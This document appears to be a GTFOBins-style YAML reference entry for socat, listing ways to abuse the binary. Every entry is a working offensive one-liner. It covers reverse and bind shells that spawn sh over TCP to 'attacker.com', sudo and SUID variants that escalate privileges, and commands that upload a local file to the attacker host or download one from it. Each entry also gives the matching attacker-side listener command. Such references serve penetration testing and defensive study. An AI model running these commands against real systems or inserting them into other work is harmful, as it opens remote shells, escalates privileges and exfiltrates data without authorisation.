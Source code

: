 ```yaml
---
functions:
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  bind-shell:
    - description: Run ``socat FILE:`tty`,raw,echo=0 TCP:target.com:12345`` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:sh,pty,stderr,setsid,sigint,sane
  sudo:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo -E socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  limited-suid:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
  file-upload:
    - description: Run ``socat -u tcp-listen:12345,reuseaddr open:file_to_save,creat`` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        socat -u file:$LFILE tcp-connect:$RHOST:$RPORT
  file-download:
    - description: Run ``socat -u file:file_to_send tcp-listen:12345,reuseaddr`` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        socat -u tcp-connect:$RHOST:$RPORT open:$LFILE,creat
---
```

